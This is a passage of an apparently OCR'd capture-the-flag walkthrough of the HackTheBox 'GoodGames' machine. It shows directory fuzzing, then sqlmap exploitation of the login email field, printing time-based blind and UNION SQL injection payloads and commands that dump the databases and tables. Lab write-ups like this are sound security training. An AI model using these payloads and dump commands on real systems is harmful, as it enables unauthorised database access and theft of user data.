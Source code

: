 ####
```ruby
000000086:   200        266 L    545  W      9267 Ch      "profile"
000000053:   200        266 L    553  W      9294 Ch      "login"
000000032:   200        908 L    2572 W     44206 Ch      "blog"
000000215:   200        727 L    2070 W     33387 Ch      "signup"
000001158:   302        3   L    24   W       208 Ch      "logout"
```
####
We have a directory with a registration and login panel, so we proceed to register and authenticate. After trying things like *(XSS*, *SSTI*, *SQLI)*, the site doesn't respond to any, but if we use the email: admin@goodgames.htb, we see a message: *(The user already exists)*. 
####
This means the **email** field is probably vulnerable to a more sophisticated attack. So we will use **sqlmap** to perform a SLQi *(SQL Injection)* attack; the first step is to determine if it is really vulnerable.
####
### SQLI
To perform an injection, we need the **cookies** given when we log in, as well as other necessary fields. For this, we need to intercept the login request with **Burpsuite** to generate an **item** in *XML* format to pass to sqlmap: `sqlmap -r intercepted_request`. Once sqlmap finishes evaluating the request, it shows us this on the screen:
####
```ruby
Parameter: email (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: email=admin@goodgames.htb' AND (SELECT 7256 FROM (SELECT(SLEEP(5)))HFQo) AND 'lZjy'='lZjy&password=12345

Type: UNION query
Title: Generic UNION query (NULL) - 4 columns
Payload: email=-7226' 
    UNION ALL SELECT NULL,CONCAT(
        0x7171707171,
        0x517650446e62534f666c7165446e63656c5854757861644c576b57627a41756376534c46704b7947,
        0x716a717071
    ),
    NULL,NULL-- -&password=12345
```
####
- ##### Sqlmap Param
    - `--tables` Enumerates tables
    - `--columns` Enumerates columns
    - `-r` XML file with the request
    - `-T` Specifies the table to dump
    - `--dbs` Database discovery
    - `--dump` Dumps tables or columns as specified
####
### SQLI discovery databases
Now that we know it can be exploited with injections: *(Time Based*, *Union Query)*, we can use the **dbs** parameter to dump the database contents.
####
```perl
sqlmap -r intercepted_request --dbs
```
####
### SQLI dump tables
With the previous command, **sqlmap** reports 2 databases on the machine; now we need to dump the tables in those databases.
####
```perl
sqlmap -r intercepted_request --tables --dump
```